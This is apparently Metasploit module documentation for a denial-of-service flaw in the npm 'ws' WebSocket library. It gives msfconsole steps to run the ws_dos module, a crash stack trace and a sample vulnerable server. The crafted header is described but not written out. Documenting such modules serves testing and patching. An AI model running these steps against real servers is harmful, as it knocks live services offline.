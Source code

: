 ## Vulnerable Application
ws < 1.1.5 || (2.0.0 , 3.3.1)
https://nodesecurity.io/advisories/550

## Vulnerable Analysis
This module exploits a Denial of Service vulnerability in npm module "ws".
By sending a specially crafted value of the Sec-WebSocket-Extensions header 
on the initial WebSocket upgrade request, the ws component will crash.

## Verification Steps
1. Start the vulnerable server using the sample server code below `node server.js`
2. Start `msfconsole`
3. `use auxiliary/dos/http/ws_dos`
4. `set RHOST <IP>
5. `run`
6. The server should crash

## Options
None.

## Scenarios

## Server output from crash
```
/Users/sonatype/Downloads/node_modules/ws/lib/Extensions.js:40
    paramsList.push(parsedParams);
               ^

TypeError: paramsList.push is not a function
    at value.split.forEach (/Users/sonatype/Downloads/node_modules/ws/lib/Extensions.js:40:16)
    at Array.forEach (<anonymous>)
    at Object.parse (/Users/sonatype/Downloads/node_modules/ws/lib/Extensions.js:15:20)
    at WebSocketServer.completeUpgrade (/Users/sonatype/Downloads/node_modules/ws/lib/WebSocketServer.js:230:30)
    at WebSocketServer.handleUpgrade (/Users/sonatype/Downloads/node_modules/ws/lib/WebSocketServer.js:197:10)
    at Server.WebSocketServer._ultron.on (/Users/sonatype/Downloads/node_modules/ws/lib/WebSocketServer.js:87:14)
    at emitThree (events.js:136:13)
    at Server.emit (events.js:217:7)
    at onParserExecuteCommon (_http_server.js:495:14)
    at onParserExecute (_http_server.js:450:3)
```

## Sample server
```
const WebSocket = require('ws');
const wss = new WebSocket.Server(
{ port: 3000 }
);
wss.on('connection', function connection(ws) {
console.log('connected');
ws.on('message', function incoming(message)
{ console.log('received: %s', message); }
);
ws.on('error', function (err)
{ console.error(err); }
);
});
```
